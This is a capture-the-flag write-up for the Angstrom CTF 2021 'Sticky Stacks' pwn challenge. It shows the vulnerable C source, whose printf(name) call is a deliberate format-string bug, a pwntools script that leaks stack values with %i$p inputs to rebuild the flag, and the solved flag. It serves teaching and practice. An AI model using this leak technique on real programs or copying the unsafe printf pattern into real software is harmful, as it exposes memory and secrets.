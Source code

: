 ```yaml
---
name: Sticky Stacks (2021)
event: Angstrom CTF 2021
category: Pwn
description: Writeup for Sticky Stacks (pwn) - Angstrom CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Sticky Stacks

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/2pqG6opzrug/0.jpg)](https://youtu.be/2pqG6opzrug?t=1706s "Angstrom 2021: Sticky Stacks")

## Challenge Description

> I made a program that holds a lot of secrets... maybe even a flag!

## Source

{% code overflow="wrap" %}
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

typedef struct Secrets {
    char secret1[50];
    char password[50];
    char birthday[50];
    char ssn[50];
    char flag[128];
} Secrets;

int vuln(){
    char name[7];

    Secrets boshsecrets = {
        .secret1 = "CTFs are fun!",
        .password= "password123",
        .birthday = "1/1/1970",
        .ssn = "123-456-7890",
    };

    FILE *f = fopen("flag.txt","r");
    if (!f) {
        printf("Missing flag.txt. Contact an admin if you see this on remote.");
        exit(1);
    }
    fgets(&(boshsecrets.flag), 128, f);

    puts("Name: ");
    fgets(name, 6, stdin);

    printf("Welcome, ");
    printf(name);
    printf("\n");

    return 0;
}

int main(){
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    vuln();

    return 0;
}
```
{% endcode %}

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './stickystacks'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

flag = b""

# Let's fuzz x values
for i in range(33, 43):
    try:
        p = start()
        # Format the counter
        # e.g. %2$s will attempt to print [i]th pointer/string/hex/char/int
        p.sendlineafter(':', '%{}$p'.format(i))
        p.recvuntil('Welcome, ')
        # Receive the response
        result = p.recvuntil('\n')
        flag_segment = unhex(result.strip().decode()[2:])
        print(str(i) + ": " + str(flag_segment))
        flag += flag_segment[::-1]  # Reverse and decode
    except EOFError:
        pass

success(flag)
```
{% endcode %}

Flag: `actf{well_i'm_back_in_black_yes_i'm_back_in_the_stack_bec9b51294ead77684a1f593}`

